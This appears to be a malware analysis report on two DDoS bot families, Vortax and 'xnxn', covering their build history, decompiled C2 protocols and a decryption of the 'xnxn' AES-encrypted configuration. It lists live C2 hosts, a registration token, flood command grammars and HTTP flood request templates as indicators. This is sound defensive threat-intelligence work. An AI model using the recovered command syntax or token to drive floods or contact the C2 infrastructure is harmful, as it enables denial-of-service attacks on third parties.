


# Vortax and `xnxn` in `mirai_unpacked_and_renamed3` — two bots that only flood

Companion to [`unpacked3_family_report.md`](unpacked3_family_report.md), and the
third per-family timeline alongside
[`unpacked3_kaiten_timeline.md`](unpacked3_kaiten_timeline.md) and
[`unpacked3_mirai_timeline.md`](unpacked3_mirai_timeline.md).

The other two timelines follow families that already had names, symbols and a
published history. These two do not. **Vortax** is a Go bot with a full symbol
table and no AV coverage; **`xnxn`** is a stripped C bot that encrypts its own
configuration and was left deliberately unattributed by the family report §6.
They have nothing in common as code. They have one thing in common as *bots*:
neither has a scanner, a credential list, a killer, or any persistence beyond a
lock file. **Both are pure DDoS payloads that someone else has to deliver.**
That is the finding this report is built around.

Analysis through the BSimVis REST API (`localhost:5001/api`), collection
`mirai_unpacked_and_renamed3`, algo `unweighted_cosine`. Read-only, no jobs
triggered. Date of analysis: 2026-07-29.

---

## 0. The two groups at a glance

| | **Vortax** | **`xnxn`** |
|---|---|---|
| Files | 8 | 22 |
| Language / runtime | Go, statically linked, symbol table intact | C, statically linked, fully stripped |
| Functions per file | 4 300 – 4 505 | 250 – 314 |
| Architectures | 4 (MIPS BE, MIPS64 LE, ARM, x86-64) | **11** |
| Build dates | 2026-03-26 (×2), 2026-04-05 (×6) | 2026-02-14 (×11), 2026-03-25 (×11) |
| ClamAV | `OK` — no detection | `Unix.Trojan.Mirai-10056451-0` — detected, mislabelled |
| C2 | `5.175.221.69:9111`, plaintext, hardcoded | two DDNS names, AES-128-CBC encrypted |
| C2 discoverable from metadata? | no — code only | no — code **and** ciphertext only |
| Capabilities | 7 flood methods | 7 commands, 5 of them floods |
| Propagation | none | none |
| Persistence | none | `/tmp/.bot_lock` single-instance lock only |
| Anti-analysis | none | VMware DMI check, config encryption |

Two opposite detection failures sit in that table and both are instructive.
ClamAV misses Vortax entirely because it is Go and looks like nothing in the
signature set. ClamAV *catches* every `xnxn` file — and files all 22 under a
Mirai signature that §3.5 shows is wrong. **`OK` is not clean and a label is not
attribution**; the family report made the first point, this one makes the second.

---

## 1. Vortax

### 1.1 Population and build groups

> **Pivot** — one `function/search?collection=…&file_md5=…&limit=8000` per file.
> Vortax keeps its Go symbol table, so the per-file symbol *set* is the primary
> evidence and no decompilation is needed to build this section.

| # | MD5 | Arch | Fns | First seen | Own symbols |
|---|---|---|---:|---|---:|
| 1 | `bded860e…` | MIPS:BE:32 | 4 364 | **2026-03-26 00:00** | 21 |
| 2 | `6999e2a2…` | MIPS:LE:64 | 4 300 | **2026-03-26 21:00** | 29 |
| 3 | `33acdb3d…` | MIPS:LE:64 | 4 300 | 2026-04-05 01:47 | 29 |
| 4 | `4f804181…` | ARM:LE:32 | 4 489 | 2026-04-05 04:15 | 29 |
| 5 | `b14c4476…` | ARM:LE:32 | 4 505 | 2026-04-05 04:15 | 29 |
| 6 | `dc58bebc…` | ARM:LE:32 | 4 478 | 2026-04-05 04:15 | 29 |
| 7 | `c57c374c…` | x86:LE:64 | 4 356 | 2026-04-05 04:15 | 29 |
| 8 | `e609c77b…` | MIPS:BE:32 | 4 372 | 2026-04-05 04:15 | 29 |

"Own symbols" = names under `main.*` or `vortax_server/*`; everything else is
the Go standard library. The package name `vortax_server` and the source paths
(`/root/wichtig/bot.go`, `/root/wichtig/Methods/*.go`) are recovered by Ghidra
from Go build metadata, not from strings.

### 1.2 The 21-hour capability change, proved as a subset

The family report stated that two capabilities were added between the two
2026-03-26 builds. The symbol sets let that be stated much more strongly.

Compare the **first** build (2026-03-26 00:00, MIPS:BE) with the **last** build
of the same architecture (2026-04-05 04:15, MIPS:BE):

```
|A| = 4 364      |B| = 4 372
A \ B = 0        B \ A = 8
```

**The older build is a strict subset.** Not one of its 4 364 symbols is absent
from the newer one, and the eight added symbols are exactly one feature pair:

```
vortax_server/Methods.StartDNS
vortax_server/Methods.StartDNS.func1
vortax_server/Methods.changeToDnsNameFormat
vortax_server/Methods.StartGREIP
vortax_server/Methods.StartGREIP.func1
vortax_server/Methods.StartGREIP.func1.deferwrap1
main.main.gowrap6
main.main.gowrap7
```

Two flood methods, their closures, and the two `main.main` goroutine wrappers
that dispatch them. Nothing else in the bot moved — not the C2 loop, not the
other five methods, not the Go runtime version. Ten days and one architecture
change later, that is *still* the only difference. This is a developer adding
two functions to `Methods/` and re-running the build script, and the symbol
table says so without a single decompilation.



Nothing flows out of either box into a "dropped" one: across all eight samples,
**no Vortax method has ever been removed.** Compare the Kaiten timeline, where
the two newest builds discard 19–21 of the 22 functions the previous generation
added — Vortax is six weeks old and has not yet had anything to regret.


### 1.3 The 2026-04-05 04:15 group is one build run — with an ARM caveat

Five files share `first_seen` to the minute. Pairwise symbol Jaccard:

| | MIPS:BE | ARM-1 | ARM-2 | ARM-3 | x86-64 |
|---|:-:|:-:|:-:|:-:|:-:|
| **MIPS:BE** | 1.00 | 0.94 | 0.95 | 0.94 | 0.88 |
| **ARM-1** | | 1.00 | 0.98 | 0.99 | 0.85 |
| **ARM-2** | | | 1.00 | 0.98 | 0.85 |
| **ARM-3** | | | | 1.00 | 0.86 |
| **x86-64** | | | | | 1.00 |

The spread (0.85–0.99) is **not** bot-code drift: the bot code is byte-identical
in name terms (all five carry the same 29 own symbols). Every difference is in
the Go standard library and in unnamed `FUN_*` stubs — architecture-specific
codegen. The three ARM binaries differ from each other by 24–56 unnamed
functions and zero named ones, which is what three ARM sub-target builds
(v5/v6/v7-style variants) look like.

One detail worth recording because it dates the toolchain: the ARM and x86-64
builds link `crypto/internal/fips140/*` packages (Go ≥ 1.24), 586–600 symbols'
worth. The MIPS builds link them too. So all eight samples come from one
reasonably recent Go toolchain, and the family's whole visible history is
6 weeks of one developer's build machine.

### 1.4 The C2 protocol, fully recovered

> **Pivot** — `function/code?id=<collection>:func:<md5>:<addr>` on `main.main`
> of the x86-64 sample (`c57c374c…:0059d960`, 2 351 instructions). One call.

```c
address.str = "5.175.221.69:9111";
mVar15 = net::net.Dial("tcp", address);      /* plaintext TCP */
...
format.str = "REGISTER %s %s\n";             /* os, arch */
while (bufio.(*Scanner).Scan(&scanner)) {    /* line-oriented command loop */
    parts   = strings.Fields(line);
    cmdName = strings.ToLower(parts[0]);
    ...
}
(*conn->Close)();
time::time.Sleep(5000000000);                /* reconnect after 5 s */
```

Ghidra does not fold the Go string comparisons back into literals, but it
compares them as integers, and those are readable. `iVar11` is the command
length, `*psVar4` the first four bytes little-endian:

| Test in the decompiler | Command | Args consumed | Dispatched to |
|---|---|---|---|
| `len==3`, `0x6e64`+`'s'` | `dns` | target, duration | `gowrap1` → `StartDNS` |
| `len==3`, `0x7070`+`'s'` | `pps` | target, port, duration | `gowrap3` → `StartPPS` |
| `len==3`, `0x6374`+`'p'` | `tcp` | target, port, duration | `gowrap5` → `StartTCP` |
| `len==3`, `0x6475`+`'p'` | `udp` | target, port, duration | `gowrap2` → `StartUDP` |
| `len==4`, `0x74697865` | `exit` | — | `os.Exit(0)` |
| `len==4`, `0x676e6970` | `ping` | — | writes `pong\n` |
| `len==5`, `0x69657267`+`'p'` | `greip` | target, duration | `gowrap6` → `StartGREIP` |
| `len==5`, `0x76697270`+`'7'` | `priv7` | target, duration | `gowrap4` → `Priv7Flood` |
| `len==7`, `0x63736964`+`0x726f`+`'d'` | `discord` | target, port, duration | `gowrap7` → `StartDiscord` |

Command grammar: `<cmd> <target> [<port>] <duration_seconds>`, whitespace
separated, lower-cased, `strconv.Atoi(parts[3])` for the duration — so **every
attack command carries its duration in field 4** even when field 3 is unused.
Each command spawns a goroutine via `runtime.newproc`; there is no concurrency
limit and no attack registry, so a flood can only be stopped by `exit` or by the
duration expiring.

Method-level details, from the same decompiles:

- `Priv7Flood` — HTTP POST L7 flood, ports `:80`/`:443`, uses `net/url.Parse`
  and `net.ResolveTCPAddr`. Only method with log strings:
  `"[%s] PRIV7 (POST) Attack started on %s for %ds (OPTIMIZED)\n"`.
- `StartDNS` — builds queries with `changeToDnsNameFormat`, transaction ID from
  `math/rand.Intn(0xffff)`, embeds `google.com` as the query name.
- `StartGREIP`, `StartDiscord`, `StartPPS`, `StartTCP`, `StartUDP` — packet
  bodies filled from `math/rand.Read`, duration enforced with
  `time.Time.Add`/`time.Sleep`. No literals to quote.

`crypto/tls` and `crypto/x509` are linked (356–362 symbols) but the C2 socket is
`net.Dial("tcp", …)` with no TLS wrapper — the crypto tree arrives via
`net/http` and is dead weight.

### 1.5 The limitation, restated with what it actually costs

Only the x86-64 sample yields string literals; on ARM, MIPS and MIPS64 Ghidra
recovers names and source paths but no constants. I decompiled `main.main` on
both MIPS:BE samples to check rather than assume:

| Sample | `main.main` | Instructions | String literals recovered |
|---|---|---:|---:|
| `c57c374c…` x86-64 | `0059d960` | 2 351 | 4 (incl. C2) |
| `bded860e…` MIPS:BE 03-26 | `0021c458` | 2 548 | **0** |
| `e609c77b…` MIPS:BE 04-05 | `0021d844` | 3 076 | **0** |

So `5.175.221.69:9111` is **observed** in 1 of 8 samples and **inferred** in the
other 7 from an identical symbol set and identical call structure. The 2026-03-26
builds predate the confirmed one by ten days; if the operator rotated C2 in that
window, this corpus cannot show it. That is the honest ceiling on the Vortax
section, and it is a Ghidra-side gap, not an API-side one.

---

## 2. `xnxn`

### 2.1 What `mirai7` saw, and what unpacking turned it into

22 files, `xnxnxnxnxnxnxnxn<arch>xnxn`, 11 architectures × 2 build dates, function
counts identical within each architecture pair. Ten of the 22 carry a packed MD5
suffix; seven of those ten packed twins are present in `mirai7`:

| Arch | packed in `mirai7` | unpacked here |
|---|---:|---:|
| x86-64 | **3 fns** | 257 |
| PowerPC | 6 | 267 |
| MIPS:BE | 6 | 314 |
| AARCH64 | 7 | 280 |
| i386 | 11 | 274 |

Everything in the rest of this section — the AES configuration, both C2 domains,
the command grammar — lives in code that `mirai7` represented with **three to
eleven UPX stub functions**. This campaign is the strongest single case for the
family report's headline conclusion.

The 12 files with no packed twin are the exotics: Loongarch64, RISCV32, RISCV64,
m68k, SH2, SH4. UPX has no working stub for those targets, so the operator
shipped them bare. **The packer's architecture coverage, not the operator's
intent, decided which half of this campaign was analysable.**

### 2.2 The configuration is AES-128-CBC, and the key ships with the binary

> **Pivot** — decompile every function under 900 instructions
> (240 of 257 on x86-64, ~3 API calls per second, no server strain), then grep
> the text for `"[0-9a-f]{32,}"`. The config falls out without reading any code.

Three hex blobs and one 32-hex key appear as plain C string literals:

```
key   fd00e82a0a3d86af73deacaa9df16432                  (16 bytes)
blob1 42480e8f…be8ad601                                 (32 bytes)
blob2 b4c4d0f3…7f7887a91585f                            (48 bytes)
blob3 ed74bacf…e597c1ba85a6                             (48 bytes)
```

`FUN_00405a20(key_hex, blob_hex)` is the decryptor. It hex-decodes the key
(`FUN_004015b0`, exactly 16 bytes or fail), hex-decodes the blob, and calls
`FUN_00405780`, which is textbook AES-128-CBC with a prefixed IV:

```c
if ((param_3 < 0x10) || ((param_3 & 0xf) != 0)) return -1;   /* len % 16 */
FUN_00401670(param_1, key_schedule);                          /* key expansion */
prev = block[0];                                              /* IV = first block */
do {   cur = *blk;
       FUN_00404c50(key_schedule, &tmp);                      /* AES block decrypt */
       *blk = prev ^ tmp;  prev = cur;                        /* CBC chaining   */
} while (...);
pad = last_byte;                                              /* PKCS#7, verified */
```

Recipe, reproducible against any sample in the campaign:

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
def dec(key_hex, blob_hex):
    k, ct = bytes.fromhex(key_hex), bytes.fromhex(blob_hex)
    p = Cipher(algorithms.AES(k), modes.CBC(ct[:16])).decryptor().update(ct[16:])
    return p[:-p[-1]]                       # strip PKCS#7
```

Plaintexts:

| Blob | 2026-02-14 build | 2026-03-25 build |
|---|---|---|
| port | `54128` | `54128` |
| token | `fewgjh48iw3hg5uh` | `fewgjh48iw3hg5uh` |
| C2 host | `feather-daddy.duckdns.org` | **`itzmeyourbro.duckdns.org`** |

Verified independently on **three architectures × both dates** (x86-64, MIPS:BE,
AARCH64 — 6 files). On AARCH64 only the host blob is recoverable; the port and
token constants live in a function above the 900-instruction cut. The remaining
16 files are inferred from §2.3, which is a stronger argument than sampling.

The token is used at registration: the bot formats `"%s %s"` from a hardcoded
architecture string and the decrypted token, and writes it to the socket —
`x86_64 fewgjh48iw3hg5uh`. A defender with the token can register as a bot; a
defender scanning traffic can match it as a plaintext 16-byte string on the wire.

### 2.3 February → March is a config-only respin, and BSim cannot see it

Both build dates, all 11 architectures, compared pairwise with
`bin_sim/search?md5=<feb>` filtered to the March twin:

| Arch | score | shared clusters | unique A | unique B |
|---|---:|---:|---:|---:|
| aarch64, i386, loongarch64, m68k, mips, powerpc, riscv32, riscv64, sh2, sh4 | **1.000** | 250–314 (all) | 0 | 0 |
| x86_64 | 0.420 | 256 | 1 | 1 |

Ten of eleven pairs are **perfect** matches. Then the decompiler-level check, on
the one pair that is not — 240 functions dumped from each build, compared as text:

```
common functions: 240      differing: 1
--- FUN_00407eb0
  Feb: "ed74bacffb15a80cad29dd0b278cae801c7c823acfed171cb761b2f0473536a0…"
  Mar: "bb63937d0e510b0ba7204ed3cc2109945dcbcaf443c9437ff99283aff7f35510…"
```

**One string literal, in one function, in a 257-function binary.** Both
ciphertexts are 48 bytes, so both domains pad into the same block count and even
the binary layout barely moves. `FUN_00407eb0` is the C2 resolver: it caches the
resolved address for 300 seconds, tries the decrypted string as a literal IP
first, then falls back to `getaddrinfo` — which is why a DDNS name works.

The methodological point is the one the other timelines keep hitting from
different angles. A binary-similarity score of **1.000 does not mean "same
campaign, nothing changed"** — it means nothing changed *that BSim measures*.
Configuration lives in `.rodata`, features are computed from code, and a C2
rotation is therefore invisible by construction. This campaign rotated its C2
and kept its score at 1.000 on 10 of 11 architectures. **Similarity clusters
tell you which builds are the same bot; only decryption tells you where they
call home.**

### 2.4 What the bot actually does

From the 257 decompiled functions of `991c092a…` (x86-64, February). Command
handler `FUN_00408350` (1 756 instructions) parses a line from the C2:

```
<!cmd> <target> [<port>] <duration> [key=value …]
```

Seven dispatch slots, indexed into a 7 × 24-byte descriptor table at
`UNK_0041f2d0`, each launching a worker thread via `FUN_00412ae0`
(`pthread_create`) with a heap argument block:

| Slot | Command | Arg form |
|---|---|---|
| — | 4-char name at `DAT_0041d27a`, replies `pong x86_64` | keepalive, no args |
| — | name at `DAT_0041d296`, calls the same teardown helper every attack calls first | stop, no args |
| 0 | `!udpcustom` | `%*s %31s %d %511[^\n]` — no port field |
| 1 | 4-char name at `DAT_0041d2a6` | port + duration |
| 2 | 4-char name at `DAT_0041d2ab` | port + duration |
| 3 | `!http` | port + duration |
| 4 | `!udpplain` | port + duration |
| 5 | `!icmp` | no port |
| 6 | 4-char name at `DAT_0041d2c6` | port + duration |

Seven attack slots, four of them with names the decompiler renders as `DAT_`
references rather than literals. The slot count and argument shapes are certain
(they come from the descriptor table and the two `sscanf` formats); four of the
names are not recoverable through the API.

The optional trailing `key=value` list is parsed with `strtok` on space:

| Key | Meaning |
|---|---|
| `proto=` | `tcp` → 1, second (unrecovered) name → 2 |
| `srcport=` | spoofed source port |
| `gport=` | generic/target port override |
| `psize=` | payload size |
| `payload=` | literal payload string, `strdup`'d |

That parameter grammar is the interesting part. Mirai encodes attack options as
a binary TLV of `(opt_id, len, value)`; Kaiten takes fixed positional IRC
arguments. **`xnxn` takes ASCII `key=value` pairs** — a third convention, and
one that implies a control panel that speaks a text protocol.

Supporting capabilities, all confirmed by string or call evidence:

- **Raw packet crafting.** `FUN_00405a80` is a vectorised 16-bit ones-complement
  checksum over a 16-byte-at-a-time loop — an IP/TCP checksum, so the floods
  build headers themselves rather than using the socket layer.
- **HTTP flood with three verbs**, one fixed User-Agent:
  ```
  GET  / HTTP/1.1\r\nHost: %s\r\nUser-Agent: %s\r\nConnection: keep-alive\r\n\r\n
  HEAD / HTTP/1.1\r\n…
  POST / HTTP/1.1\r\n…Content-Type: application/x-www-form-urlencoded\r\nContent-Length: 16\r\n\r\ndata=random_data\r\n
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110
  ```
  A Chrome/58 UA in 2026 is a usable detection string on its own.
- **Its own DNS resolver.** `/etc/resolv.conf`, `nameserver`, `ndots:`,
  `search`, `options`, `domain`, `/etc/hosts`, `/etc/services` — a full stub
  resolver compiled in, which is what lets a DDNS C2 work on a device with no
  usable libc resolver configuration.
- **Anti-VM.** Reads `/sys/class/dmi/id/product_name`, `strstr`s for `VMware`,
  and on a hit calls `FUN_00401040(1)` — a no-return exit. One vendor only; a
  KVM/QEMU sandbox walks straight past it.
- **Single instance.** `open("/tmp/.bot_lock", 0x42 /* O_RDWR|O_CREAT */, 0180 /* 0600 */)`
  followed by `flock(fd, 6 /* LOCK_EX|LOCK_NB */)`; if the lock is taken it exits. That is the only
  filesystem artefact and it is also the cheapest host IOC in this report.
- **What is absent**: no scanner, no telnet/SSH credential table, no
  `killer_*`-style competitor eviction, no watchdog write, no persistence, no
  self-delete. 257 functions is a *small* binary and this is where the budget
  went.

### 2.5 It is not Mirai — the overlap is a toolchain, and here is the count

The family report left `xnxn` unattributed on a 0.28 cluster-Jaccard to
`px86_i686`, deliberately refusing to move a threshold after seeing the answer.
That call was right, and the code now says *why* the 0.28 existed.

Same-architecture cluster overlap for `xnxn` x86-64 (321 clusters):

| Compared against (x86:LE:64) | Shared clusters |
|---|---:|
| `px86_64` — Mirai, `p*` campaign | **101** |
| `swatnet` — Kaiten, same arch | **1** |
| `DEMONS.x86` — Mirai, x86 32-bit | 1 |

101 against one Mirai file and 1 against a Kaiten file of the *same*
architecture. That asymmetry rules out "generic static libc" as the whole story
and looks, at first, like real lineage. So: which functions are in those 101
clusters?

| | Functions |
|---|---:|
| `xnxn` x86-64 functions in a cluster shared with `px86_64` | **79 / 257** |
| …of which are bot logic | **0** |

Every function this report identified by behaviour is outside the shared set:

| Function | Role | In a `px86_64`-shared cluster? |
|---|---|:-:|
| `FUN_00408350` | command dispatcher | **no** |
| `FUN_00407eb0` | C2 resolver + config blob | **no** |
| `FUN_00405780` / `FUN_00404c50` / `FUN_00401670` | AES-CBC / block / key schedule | **no** |
| `FUN_00405a80` | IP checksum | **no** |
| 6 candidate flood workers | attack loops | **no** |

And the membership of those 101 clusters, resolved file by file, is the whole
`p*` campaign and nothing else: `px86_64` (101/101), `px86_i686` (23),
`px86_i486` (23), `parm` (18), `pmips` (18), `pmpsl` (18), `pppc` (15) — plus
`bin.x86_64` (34), a file that is in neither family — and every `xnxn`
architecture. Kaiten never appears.

So the 0.28 is a **shared build environment**: the `p*` Mirai campaign and the
`xnxn` campaign were compiled against the same static C runtime, by what is
plausibly the same cross-compiler kit. That is a real link and worth reporting —
it just is not a code-lineage link, and the evidence for the distinction is 79
functions of runtime versus 0 functions of bot.

**`xnxn` stays unattributed as a family**, now with a reason instead of a
threshold: its command protocol matches neither Mirai's binary TLV nor Kaiten's
IRC positional form, its configuration scheme (AES-128-CBC, key in `.rodata`)
has no counterpart in either family, and not one of its malware functions
clusters with either. The `Unix.Trojan.Mirai-10056451-0` label on all 22 files
is a signature hit on shared runtime code, and it is wrong.

---

## 3. Timeline




Read the two rows against each other. The `xnxn` operator ships 11
architectures at once, twice, six weeks apart, and changes exactly one string.
The Vortax operator ships 1–5 architectures at a time, three times in eleven
days, and changes code. Same corpus, same window, two completely different
release disciplines — and the `xnxn` one is the mature operation.

---

## 4. Conclusions

1. **Vortax's 2026-03-26 build is a strict symbol subset of its 2026-04-05
   build**, with exactly 8 symbols added: `StartDNS` + `StartGREIP` and their
   wrappers. Capability drift proven at symbol level, no decompilation needed.
2. **Vortax's full command grammar is recovered**: 9 commands
   (`dns`/`pps`/`tcp`/`udp`/`greip`/`priv7`/`discord`/`ping`/`exit`), line
   oriented, `<cmd> <target> [port] <duration>`, unbounded goroutine per command,
   `REGISTER <os> <arch>` handshake, 5-second reconnect.
3. **`xnxn` encrypts its config with AES-128-CBC and ships the key**, so the
   campaign's C2 is recoverable with four lines of Python:
   `feather-daddy.duckdns.org:54128` (February) →
   `itzmeyourbro.duckdns.org:54128` (March), token `fewgjh48iw3hg5uh` throughout.
4. **The February → March rebuild changed one function out of 257** — only the
   ciphertext blob. Ten of eleven architecture pairs score a *perfect* 1.000 in
   `bin_sim`. Binary similarity is structurally blind to configuration; a 1.000
   score is not evidence that infrastructure is unchanged.
5. **`xnxn` is not Mirai.** Its 101-cluster overlap with the `p*` campaign is
   79 runtime functions and **zero** bot functions; a same-architecture Kaiten
   file shares 1 cluster. Shared cross-compiler kit, different bot. The ClamAV
   Mirai label on all 22 files is a false attribution.
6. **Neither family can spread.** No scanner, no credentials, no persistence in
   either. Both are delivered payloads, which means the interesting question for
   both is the loader — and the loader is not in this corpus.

### Indicators

| Type | Value | Family |
|---|---|---|
| C2 | `5.175.221.69:9111` (TCP, plaintext) | Vortax |
| C2 | `feather-daddy.duckdns.org:54128` | `xnxn`, 2026-02-14 build |
| C2 | `itzmeyourbro.duckdns.org:54128` | `xnxn`, 2026-03-25 build |
| Wire string | `REGISTER <os> <arch>\n`, reply `pong\n` | Vortax |
| Wire string | `<arch> fewgjh48iw3hg5uh` at registration | `xnxn` |
| Wire string | Chrome/58.0.3029.110 UA in `GET`/`HEAD`/`POST /` | `xnxn` HTTP flood |
| Host artefact | `/tmp/.bot_lock` (flock'd, mode 0600) | `xnxn` |
| Config key | AES-128 `fd00e82a0a3d86af73deacaa9df16432` | `xnxn`, both builds |
| Build path | `/root/wichtig/bot.go`, `/root/wichtig/Methods/*.go` | Vortax |

### Follow-ups

- **Pivot on the `xnxn` AES key, not the domains.** The key survived a C2
  rotation; the domains did not. A key-based retrohunt finds builds 3 and 4.
- Recover the two unresolved `xnxn` command names and the second `proto=` value.
  They are in `.rodata` at `DAT_0041d2a6` / `DAT_0041d2ab` / `DAT_0041d37a` and
  need a byte-level read the decompiler will not give — this is the one question
  in this report the API cannot answer.
- Confirm Vortax's C2 on a non-x86 sample. Needs Ghidra-side Go string recovery
  for ARM/MIPS; until then 7 of 8 samples are inference (§1.5).
- Both DDNS names are live-resolvable infrastructure with no detection coverage
  on the payload — worth resolving and pivoting outside this corpus, as with
  `5.175.221.69`.
- `bin.x86_64` (2 284 functions, 2026-02-20, labelled Mirai) sits in the same
  toolchain cluster set as `p*` and `xnxn` but belongs to neither family by
  symbol or protocol evidence. It is the next unattributed file worth an hour.
